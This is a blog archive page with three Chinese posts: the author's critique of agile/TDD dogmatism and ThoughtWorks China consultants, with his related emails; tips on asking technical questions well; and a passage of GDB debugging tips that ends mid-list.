本来已经过去的事，今天却又发现这两篇文章的访问量和评论又上来了，才发现原来是InfoQ的这篇文章——《[虚拟座谈会：TDD有多美？](http://www.infoq.com/cn/articles/virtual-panel-tdd)》，加上很多我在评论中的观点，以及ThoughtWorks和InfoQ之前给我的来信中谈到的一些观点。我很不自然地想把我的一些观点总结并罗列在这里。主要分成四块—— 1）**我对整个事情的基本观点**，2）**对于方法论的观点，3）对于TW中国咨询师的观点**，4）**还有和TW和InfoQ住来信件中的观点****。**

**————————————————**

#### 基本观点

首先，我想说明一下我的基本观点。


一、**真金不怕火炼**。我就像大家一样，平时总是会或多或少的埋怨点什么。大街上有人随便做个事，你会和他较真吗？不会。这个事也一样，我就像大家茶余饭后批评房价和物价一样，你们没有必要那么较真，不值得这样小题大作（除非你们真的心虚了），如果你做得好的话，真金不怕火炼，我这点批评算得了什么。**你们玩的是“敏捷”不是“敏感”**。

二、**从正反面思考**。我和大家一样，喜欢思考，喜欢从正面和反面一同思考问题，我有质疑的癖好，我希望大家都有这样的思考方式。注意，**质疑的结果不是为了质疑而质疑，而是去寻找完整认识的一种方法**。

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=358693536&amp;adf=2234082912&amp;pi=t.aa~a.425447425~i.27~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684216514&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3745.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xn7mnWehqIk2LKvBUNRPB0ATTGHTW9fXHdv3LIOmttcVd-TKW7DAGoJoe79a_ocjWUBHBmU&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226005881&amp;bpp=1&amp;bdt=5516&amp;idt=0&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=3398142726460&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=143274545&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2157&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074635%2C44772269%2C44788442%2C44789779%2C21065725&amp;oid=2&amp;psts=ABHeCvg6djRxz-0p-BEgMrlH7fw6CIz-sKKX6rqoXIqz2QkngCxENWKhDgUYvbTBWzRa5PAXuzr0xHrl9MDnvx8ozDd7&amp;pvsid=1796805731034476&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=1&amp;fsb=1&amp;xpc=gj5hSYVNL1&amp;p=https%3A//coolshell.cn&amp;dtd=12116" data-google-container-id="a!4" data-google-query-id="CKyui-y2-f4CFSMXdgYdUnQM7A" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

三、**观点的自由**。我不是一棍大打死一片的人，我不完全否定敏捷（我的那两篇文章都有一再说明过了），同时我也不会完全同意敏捷。我不会因为敏捷有不好的地方我一棍子打死，我同样不会因为敏捷的好处就大唱赞歌。任何事物都有好有坏，我寻求的是自由地发表我的观点。**我反对观点的极端，但我追求观点的自由**。

**四、观点的不同。**观点只有不同才会让人思路完整，观点只有不同才会迸发出火花，世界的进展正是因为有不同的观点。如果敏捷的咨询师和信仰者们不接受不同观点，不接受批评，那么你们将无法进步和发展，如果你们妄图让所有人都持认可敏捷的和谐观点，那么你们将会变得邪恶。**没有批评，赞美也会变得没有意义**。

**————————————————**

#### 对于敏捷方法论的观点

一、**没有好的方法，只有适不适合的方法**。正如没有好的设计，只有适不适合的设计一样。喜欢足球的朋友都知道，世界级的足球队中，巴西队玩的是个人艺术足球，德国队玩的是整体和纪律性足球，意大利玩的是防守型足球，但是他们都有夺世界杯冠军的实力，如果你硬要让巴西队去整意大利的风格，或是让德国整巴西的风格，那就悲剧了。**敏捷是不会是适合所有人所有项目的，就像不是所有的人都有运动的天赋一样**。

二、**软件开发的中心是人和项目，而不是方法**。千万不要把方法放在中心，改变项目的性质和人的习惯去适应这个方法。正确的方法是，以人和项目为中心，了解项目中所有人的想法和做事的风格，以及项目的性质，从而决定采用什么样的方法。大家可以看看[InfoQ上那几个“专家”关于TDD的对话](http://www.infoq.com/cn/articles/virtual-panel-tdd)，除了Google的测试经理外，其它人从到到尾谈的都是TDD方法，谈的都是如果要TDD，人应该怎么怎么样。**这就是敏捷最大的问题——教条主义横行，以方法论为中心横行**。我批判的就是这个！

三、**好的方法不是讲出来的，而是在实践中改善出来的**。好的方法不用去讲出来的，而是从团队内部自发出来的。如果敏捷方法论很不错的话，那么应该会在现实中体现出来。**真正好的方法是团队内部根据自身情况在不同的项目上使用的不同的方法**。（注：请不要使用XUnit, Spring，ANT等程序框架举例，因为那些项目的用户是程序员）

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=358693536&amp;adf=2234082912&amp;pi=t.aa~a.425447425~i.41~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684216514&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3745.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xn7mnWehqIk2LKvBUNRPB0ATTGHTW9fXHdv3LIOmttcVd-TKW7DAGoJoe79a_ocjWUBHBmU&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226005874&amp;bpp=1&amp;bdt=5508&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C120x600%2C728x90&amp;nras=7&amp;correlator=3398142726460&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=143274545&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3393&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=370&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074635%2C44772269%2C44788442%2C44789779%2C21065725&amp;oid=2&amp;psts=ABHeCvg6djRxz-0p-BEgMrlH7fw6CIz-sKKX6rqoXIqz2QkngCxENWKhDgUYvbTBWzRa5PAXuzr0xHrl9MDnvx8ozDd7%2CABHeCvhlM-lfqBciRzMxouw4eVwb1Fg9c_5qxkMhQ1HOek9MBN_Y4TlbsFuSlwXOSoe5YAjlXOqVzlp3A89UIw&amp;pvsid=1796805731034476&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=4&amp;fsb=1&amp;xpc=amputWNiDU&amp;p=https%3A//coolshell.cn&amp;dtd=14232" data-google-container-id="a!3" data-google-query-id="CMOuiu22-f4CFYEQdgYdenoO9w" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

四，**方法论不是一种理论**。敏捷的鼓吹者说，TDD让你更关注设计，TDD更能了解需求。理论上，你可以把TDD拔到这样的高度，甚至更高的高度。可是具体实践上呢，你会发现在有压力的状态下你的程序员关注得更多的是测试过不过，在和用户沟通的时候，你会发现，根本没有一种好的方法论可以把需求完全搞清。如果TDD可以完全搞清需求，还要迭代干什么，直接waterfall了（其它关于TDD的观点请看我的文章《[TDD并不是看上去的那么美](https://coolshell.cn/articles/3649.html)》）理论和实际的差别的很大的。

**————————————————**

#### **对于ThoughtWorks咨询师的批评观点**

对于 下面这些言论，我就不一一点名了，因为我觉得这和咨询师没有关系，这和TW中国公司的管理理念有关系。

- 中国ThoughtWorks某些咨询师通常在加入公司很短的时间内（1-2年），基本上都以被冠以“高级咨询师”。1-2年能做几个项目？我以为能给人做咨询的人都是在技能上让人佩服的那种人。20出头还是埋头苦干，努力学习，积累经验的时候，经验都不够，就可以给人咨询。

- 中国ThoughtWorks某些咨询师们，喜欢翻译国外的书，但从不自己写书，他们喜欢blog，他们的blog里都里大量的Agile的方法，而很少有对技术的见解，以及技术细节知识性的文章，在他们的blog中，你很难看见代码。

- 中国ThoughtWorks的咨询师们，喜欢参加各种研讨会，以及各种论坛，媒体采访。看看[这篇文章](http://www.infoq.com/cn/articles/sofware-outsourcing-eco-crisis-3)，空洞，空洞，还是空洞。

- 中国ThoughtWorks某些咨询师们大多都比较敏感，都是坚定不移的敏捷信徒。你别说有不同观点了，你就问个有点疑问的问题，他们就敏感了，就要反驳或是教育你了。

- 中国ThoughtWorks某些咨询师们大多都很能说，和他们在一起，你基本上说不上话，就算说得上，他们也不会听你的，而且在不停地说教。大多数时候，他们都有很多的神一般的理论，比如：“你这不是真正的敏捷，真正的敏捷不是这样的”，“TDD中的T，是什么测试都无所谓。它就是设计。”，“TDD更强调设计，而不是测试本身。所以，TDD并不适用于菜鸟程序员。”，“你是在用锤子拔钉子”，“敏捷不需要文档，代码不需要注释”，“能学会的人他不需要看这些文字，不能学会的人他看了也是白看”，“它不是对不对的问题，它是可笑的”，“要使用一种设计方法，你就必须（1）会做设计；（2）做设计。它难在有些项目不做设计，有些人不会做设计”……

大家可以看看[InfoQ的这个针对本章文章的讨论](http://www.infoq.com/cn/articles/virtual-panel-tdd)，注意熊节同学的观点，他是在谈TDD呢，还是在说我呢？可见他是带着目的来参加这个讨论会的。但是大家有多少人看明白了他在说什么？他除了敏感，除了那些“神一般的观点”，你真的实在不知道他在说什么，你是不是和我一样，对他的发言感到很空洞呢？（熊节同学可能以为InfoQ把我邀请去了，其实我没有去。大家可以去看看，**那不是讨论，那是一群TDD的信徒们在自己炒作自己呢**）

我不厌其烦地再给咨询师们提那个建议——**咨询师就像裁缝，不是只为设计时装的设计师，你们做的是量体裁衣的活儿。对于不同的身材，不同的体质，要用不同的财料和尺寸; 对于不同的性格，将会是不同的风格; 对于不同的场景，也将会是不同的服装，游泳和出席宴会是两种不同的服装。服装的好坏不是服装本身漂亮不漂亮，而是合不合身，搭配地好不好，适不适合相应的场景，着衣的人感觉到的是不是舒服**。

——————————————

#### 关于ThoughtWorks和InfoQ给我的信

文章写得太长了，大家见笑了，也见谅！这是最后一段了。

1） TW的王效珅在春节前和我有几次电子邮件的往。我觉得王效珅是个很出色的公关人员，她用硬朗来形容我，把我一下子形容老了几十岁。她希望和我做沟通，希望让我和TW的咨询师谈一谈，我没有答应，也没有拒绝。春节期间还给我打来了电话祝我春节快乐，真是太让我感动了。她尊称我老师，可是我并不买帐，因为我觉得我没有资格成为老师，我也建议她也不要随便叫人老师。下面，是我给她的回信中的观点。

在谈到如何管理项目时，我这样回复她的

> 你可以理解成——你们就像是黄埔军校，西点军校出来的高材生，而我就则是一个天天在各种战场上摸爬滚打并被打得灰头土脸的土贼。我不相信流程和各种Best Practice，我只相信的是人。
>
> 我最关心的是软件开发中的三件事，第一个是人，第二个还是人，第三个还是人。第一个人是实现项目的人，第二个是项目的所有人，第三个是项目外周边有关系的人。我不但关心他们的想法，他们的软/硬能力，我还更关心他们的风格，他们的性格，还有他们的成长经历。这样我才能在权衡项目中那些各种乱七八糟东西的时候，懂得怎么plan，怎么run，怎么communication，怎么manage 才会是真正有效的（效果+效率）。motivate和项目有关的每个人，这才是我心中的敏捷！（这其中是需要花大量的心血的，相当的影响寿命）

在谈到是否见面时，我是这样回复她的

- > 其一，在网上，不只是我的言论对TW有微辞，需要我们每一个人每一个公司树立一个好的心态就好了（网上骂我的也很多，我自以为我的心情还不错）。
  >
  > 其二，如果做的好，那就经得住考验，经得住质疑，好的东西一定会有好的结果，有了结果，拿结果和事实说话，这是最好的方式。
  >
  > 其三，你说的那位技术上的同事，据你说是对我很欣赏，也常看酷壳，那么以前应该交流过才对啊，不应该是我质疑了你们的时候。呵呵。
  >
  > 其四，我绝对不是一棍子打死一片的人（我原文中也多次提过Agile中有一些提法是不错的），但是我也不是看到一个好的就大唱颂歌的人。

2）关于InfoQ张凯峰主编的来信，原文如下：

> 
> From: xxxxx@infoq.com
> Date: Tue, 15 Feb 2011 20:24:27 +0800
> Subject: 邀请参加TDD虚拟座谈会的讨论
> To: haoel@hotmail.com
>
> 陈皓你好，
>
> 我是InfoQ中文站的主编张凯峰。最近你的《TDD并不是看上去的那么美》一文引起的广泛的关注，我们想就此做一次虚拟的座谈会讨论，邀请你来参与一下关于TDD的讨论。邀请的专家还包括thoughtworks的咨询师，以及其他敏捷方面的专家。以给读者更加广泛的视角和分享。欢迎参加，谢谢。
>
> 以下是问题，可以把每个问题的答案发回给我。截止时间是两天。任何问题，请与我沟通，谢谢。
>
> 请介绍你自己，以及TDD的实践经验。
> TDD跟Test是什么关系呢？TDD的T就是Unit Test吗？
> 你认为实施TDD需要怎样的前提条件？TDD难在哪儿？
> TDD之于需求、设计、代码质量是怎样的关系和影响？
> 你认为实施TDD容易犯的错误是什么？TDD的不足在哪些方面？
> 一般开发者需要多久能掌握TDD呢？请向读者推荐一下TDD的学习资料吧。
>
> Thanks,
>
> —
> 张凯峰 | Kevin Zhang | InfoQ China Managing Editor
> InfoQ China：http://www.infoq.com/cn

我的回复如下（我老婆 说我回复得太贫了，我接受！）

> From: haoel@hotmail.com
> To: xxxxx@infoq.com
> Subject: RE: 邀请参加TDD虚拟座谈会的讨论
> Date: Tue, 15 Feb 2011 21:45:51 +0800
>
> 张凯峰主编，您好！
>
> 谢谢你们关注我的文章，见笑了。
>
> 你们真是很厉害，相当善于发掘热点新闻。果然是媒体的专业素质。;-)
>
> 我的文章不应该有那么大的能量，一个根本没有推广的个人blog，随便发布一些自己的想法，不是自我炒作，自己的blog嘛，想啥说啥，就像大街上的阿猫阿狗一样随便发表点个人意见，不会有人在意的。哪能引得您们的关注。真是让我受宠若惊。
>
> 另外，你问到的那些问题，绝大多数的答案都在我的那篇文章里了。如果你们想转载我的文章，转过去就是了，只要注明作者和出处就OK了。千万不要用于任何的商业目的和炒作，这样我会很不高兴的。
>
> 所以，我还是谢绝这个讨论了。如果你真想找人讨论的话，执我这样观点的人并不在少数，Google一下，可以找到很多。尤其是国外的，有些作者和我一样，都是做了十几年的项目的，都是做大大小小也有20来个项目的，各种人，各种事，各种项目都经历过很多，找那些人岂不更好？
>
> P.S，您的邮件还真强势，在“谢谢”和“谢谢”中就直接让我回答这些问题，还只限两天时间。真是个大主编，让我学到了“谢谢”的另一种用法。谢谢！
>
> 祝 工作顺利！
> 陈皓

**我的观点就是我的观点，无论你同不同意，喜不喜欢，都是我的观点，**

**他就在那里，不卑不亢，不多不少**

# 你会问问题吗？

#####  [2011年02月22日 ](https://coolshell.cn/articles/3713.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [39 条评论](https://coolshell.cn/articles/3713.html#comments) 42,549 人阅读

在工作和生活中，总是会有很多人问题我很多技术方面的问题。有一些时候，问问题的和答问题的总是会有一些不爽的事情发生。如下面的几种情况：

- 比如：“我的电脑老是蓝屏，怎么办？”，通常这样的问题90%以上的回答是：“重装吧”。这让问问题的人感到很沮丧，但你不能不承认那不是答案。而且有时候让人无法解答，比如：“我的makefiel出错了，你帮我看看我的makfile”，我通常会非反问，报了什么错吗？
- 另一种情况是，回答问题的人首先先对问问题的人的抱怨，你问的问题就不对，或是，你问的这个问题是什么意思，而导致问问题的人却在不停地解释，结果花了好长时间来讨论问题本身是什么。
- 还有一种情况是，问的问题太简单了甚至太白痴了，比如你自己试一试或是读读文档就知道了的问题，或是问这个问题直接表明了你的无知或是懒惰。这种问题会相当影响别人对你的印象。
- 第四种情况是，提问者滔滔不绝，扯这扯那，讲了一大堆，听得听累了。最后都不知道你要干什么。

所以，怎么去问问题，怎么问一个好的问题，是一个很重要的事。你提问的技术直接关系到了你是否能够很快得到你满意的答案。

这里有一篇文章推荐给大家《[How To Ask Questions The Smart Way](http://www.catb.org/~esr/faqs/smart-questions.html)》，中文版在这里《[提问的智慧](https://github.com/ryanhanwu/How-To-Ask-Questions-The-Smart-Way)》，我把其中的几个亮点总结如下：


- 提问前先自己尝试查找答案，读读文档、手册，看看有没有相似的问题，看看那些方法能不能帮你解决问题，自己去试一试。如果你是程序员，你应该先学会自己调查一下源代码。（不然，人家回答你的一定是——RTFM – Read The Fucking Manual）这样的问题很多。我有时候很不愿意回答这样的问题，因为我觉得问问题的人把我当成了他的小跟班了。

- 提问的时候，找正确的人或是正确的论坛发问。向陌生人或是不负责的人提问可能会是很危险的。不正确的人，会让你事倍功半。如果你问Linux的人Windows太慢怎么办？他们一定会让你把Windows删了装Linux去的。

- 问的问题一定要是很明确的，并且阐述你做了哪些尝试，你一定要简化你的问题，这样可以让你的问题更容易被回答。对于一些问题，最好提供最小化的重现问题的步骤。

- 你一定要让问题变得简单易读，这和写代码是一样的。只有简单易读的邮件，人们才会去读，试想看到一封巨大无比的邮件，读邮件的心情都没有了。而且，内容越多，可能越容易让人理解错了。

- 你问问题的态度应该是以一种讨论的态度，即不是低三下四，也不是没有底气。只有这样，你和你的问题才能真正被人看得起。要达到这个状态，不想让别人看不起你，你就一定需要自己去做好充足的调查。问题 问得好的话，其实会让人觉得你很有经验的，能想到别人想不到的地方。

- 不要过早下结论。比如：“我这边的程序不转了，我觉得是你那边的问题，你什么时候能fix？”，或是“太难调试了，gdb怎么这么烂？！”。当你这么做的时候，你一定要有足够的信息和证据，否则，你就显得很自大。好的问题应该是，“我和你的接口的程序有问题，我输入了这样的合法的参数，但是XX函数却总是返回失败，我们能一起看看吗？”，“我看了一下gdb的文档，发现我在用XXX命令调试YYY的时候，有这样ZZZ的问题，是不是我哪里做错了？”

（全文完）

# GDB中应该知道的几个调试方法

#####  [2011年02月10日 ](https://coolshell.cn/articles/3643.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [43 条评论](https://coolshell.cn/articles/3643.html#comments) 104,664 人阅读

七、八年前写过一篇《[用GDB调试程序](http://blog.csdn.net/haoel/archive/2003/07/02/2879.aspx)》，于是，从那以后，很多朋友在MSN上以及给我发邮件询问我关于GDB的问题，一直到今天，还有人在问GDB的相关问题。这么多年来，有一些问题是大家反复在问的，一方面，我觉得我以前的文章可能没有说清楚，另一方面，我觉得大家常问的问题正是最有用的，所以，在这里罗列出来。希望大家补充。

目录


[一、多线程调试](https://coolshell.cn/articles/3643.html#一、多线程调试)[二、调试宏](https://coolshell.cn/articles/3643.html#二、调试宏)[三、源文件](https://coolshell.cn/articles/3643.html#三、源文件)[四、条件断点](https://coolshell.cn/articles/3643.html#四、条件断点)[五、命令行参数](https://coolshell.cn/articles/3643.html#五、命令行参数)[六、gdb的变量](https://coolshell.cn/articles/3643.html#六、gdb的变量)[七、x命令](https://coolshell.cn/articles/3643.html#七、x命令)[八、command命令](https://coolshell.cn/articles/3643.html#八、command命令)

#### 一、多线程调试

多线程调试可能是问得最多的。其实，重要就是下面几个命令：

- info thread 查看当前进程的线程。
- thread <ID> 切换调试的线程为指定ID的线程。
- break file.c:100 thread all  在file.c文件第100行处为所有经过这里的线程设置断点。
- set scheduler-locking off|on|step，这个是问得最多的。在使用step或者continue命令调试当前被调试线程的时候，其他线程也是同时执行的，怎么只让被调试程序执行呢？通过这个命令就可以实现这个需求。
  - off 不锁定任何线程，也就是所有线程都执行，这是默认值。
  - on 只有当前被调试程序会执行。
  - step 在单步的时候，除了next过一个函数的情况(熟悉情况的人可能知道，这其实是一个设置断点然后continue的行为)以外，只有当前线程会执行。

#### 二、调试宏

这个问题超多。在GDB下，我们无法print宏定义，因为宏是预编译的。但是我们还是有办法来调试宏，这个需要GCC的配合。

在GCC编译程序的时候，加上**-ggdb3**参数，这样，你就可以调试宏了。

另外，你可以使用下述的GDB的宏调试命令 来查看相关的宏。

- info macro – 你可以查看这个宏在哪些文件里被引用了，以及宏定义是什么样的。
- macro – 你可以查看宏展开的样子。


#### 三、源文件

这个问题问的也是很多的，太多的朋友都说找不到源文件。在这里我想提醒大家做下面的检查：

1. 编译程序员是否加上了-g参数以包含debug信息。
2. 路径是否设置正确了。使用GDB的directory命令来设置源文件的目录。

下面给一个调试/bin/ls的示例（ubuntu下）

$ apt-get source coreutils

$ sudo apt-get install coreutils-dbgsym

$ gdb /bin/ls

GNU gdb (GDB) 7.1-ubuntu

(gdb) list main

1192    ls.c: No such file or directory.

**in** ls.c

(gdb) directory ~/src/coreutils-7.4/src/

Source directories searched: /home/hchen/src/coreutils-7.4:**$cdir**:**$cwd**

(gdb) list main

1192        }

1193    }

1194

1195    int

1196    main (int argc, char **argv)

1197    {

1198      int i;

1199      struct pending *thispend;

1200      int n_files;

1201

#### 四、条件断点

条件断点是语法是：break  [where] if [condition]，这种断点真是非常管用。尤其是在一个循环或递归中，或是要监视某个变量。注意，这个设置是在GDB中的，只不过每经过那个断点时GDB会帮你检查一下条件是否满足。

#### 五、命令行参数

有时候，我们需要调试的程序需要有命令行参数，很多朋友都不知道怎么设置调试的程序的命令行参数。其实，有两种方法：

1. gdb命令行的 –args 参数
2. gdb环境中 set args命令。

#### 六、gdb的变量

有时候，在调试程序时，我们不单单只是查看运行时的变量，我们还可以直接设置程序中的变量，以模拟一些很难在测试中出现的情况，比较一些出错，或是switch的分支语句。使用set命令可以修改程序中的变量。

另外，你知道gdb中也可以有变量吗？就像shell一样，gdb中的变量以$开头，比如你想打印一个数组中的个个元素，你可以这样：

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=619963983&amp;adf=2416991584&amp;pi=t.aa~a.425447425~i.48~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684220786&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3643.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xhsudpuMF4KgrGrvCyHjuTrv06fWgi8t4RHofBr5M_qWP8Jm9LhiYU5vUi0P-ZjSaNRQcNI&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226216115&amp;bpp=1&amp;bdt=5271&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C130x600%2C1005x124&amp;nras=6&amp;correlator=808380600289&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=508952530&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3494&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=453&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071755%2C31074601%2C31074635%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvhRkjjRgw1C_jYldNIbtjhJPoU2qYZAJXt49v6qfkGUJEu4_tPXdV7Zyg05G25sahFJmQZhZYWsvuxNC1yYV7yX%2CABHeCvjmr8GUdmgVNjrcvIDGYa0c5RHxta6FmSR4_F1AHSQQ9pYXfw_2EeFoov_W4NPvJN9DIyHXtlhdn8V4Owf4sJbOuOCE0oQ2iJXfKjEm7Y0UlvGv3w%2CABHeCvgA1ZHLJLO94Eo_PURSiQ4NSyDcTRCv7BcZ4-T6WL5B5FbbxVf_N82JiFPxkHxRLNXsh-AzrSW4_Ndxu4aqjYvGpiEQ18znHbrWt-xDhtnq7YU&amp;pvsid=3849143358255498&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F31&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=3&amp;fsb=1&amp;xpc=zE22kgbk0Q&amp;p=https%3A//coolshell.cn&amp;dtd=5329" data-google-container-id="a!4" data-google-query-id="CLafis23-f4CFZQCfQodOuoKvQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

(gdb) set **$i** = 0

(gdb) p a[**$i**++]

...  #然后就一路回车下去了

当然，这里只是给一个示例，表示程序的变量和gdb的变量是可以交互的。

#### 七、x命令

也许，你很喜欢用p命令。所以，当你不知道变量名的时候，你可能会手足无措，因为p命令总是需要一个变量名的。x命令是用来查看内存的，在gdb中 “help x” 你可以查看其帮助。

- x/x 以十六进制输出
- x/d 以十进制输出
- x/c 以单字符输出
